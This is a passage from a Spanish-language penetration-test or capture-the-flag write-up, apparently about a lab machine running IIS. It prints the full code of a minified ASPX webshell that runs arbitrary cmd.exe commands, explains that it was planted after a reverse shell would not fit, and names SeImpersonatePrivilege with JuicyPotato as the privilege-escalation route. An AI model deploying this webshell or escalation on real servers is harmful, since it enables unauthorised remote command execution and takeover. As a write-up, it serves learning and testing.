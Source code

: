 ![Visualización en IIS](images/exploit_6.png)

Una vez validada la escritura, se abre la puerta a la creación de una reverse shell, el inconveniente es que debido al espacio limitado en las variables respecto a los caracteres no fue posible llevarlo a cabo, por lo que se optó por una webshell en su lugar.

Utilizando `/usr/share/webshells/aspx/cmdasp.aspx` eliminando estilos, comentarios y saltos de línea para reducir los caracteres se obtuvo ejecución en la máquina.

Código de página empleado:

```c#
<%@ Page Language="C#" Debug="true" Trace="false" %><%@ Import Namespace="System.Diagnostics" %><%@ Import Namespace="System.IO" %><script Language="c#" runat="server">void Page_Load(object sender, EventArgs e){}string ExcuteCmd(string arg){ProcessStartInfo psi = new ProcessStartInfo();psi.FileName = "cmd.exe";psi.Arguments = "/c "+arg;psi.RedirectStandardOutput = true;psi.UseShellExecute = false;Process p = Process.Start(psi);StreamReader stmrdr = p.StandardOutput;string s = stmrdr.ReadToEnd();stmrdr.Close();return s;}void cmdExe_Click(object sender, System.EventArgs e){Response.Write("<pre>");Response.Write(Server.HtmlEncode(ExcuteCmd(txtArg.Text)));Response.Write("</pre>");}</script><HTML><body ><form id="cmd" method="post" runat="server"><asp:TextBox id="txtArg" runat="server" Width="250px"></asp:TextBox><asp:Button id="testing" runat="server" Text="excute" OnClick="cmdExe_Click"></asp:Button><asp:Label id="lblText" runat="server">Command:</asp:Label></form></body></HTML>
```

![Webshell en aspx](images/exploit_7.png)

## Post Explotación

### Enumeración

Se identificó que entre los privilegios disponibles del usuario obtenido se encuentra habilitado `SeImpersonatePrivilege` lo que lleva a un camino de escalación de privilegios por medio de Rotten o JuicyPotato.
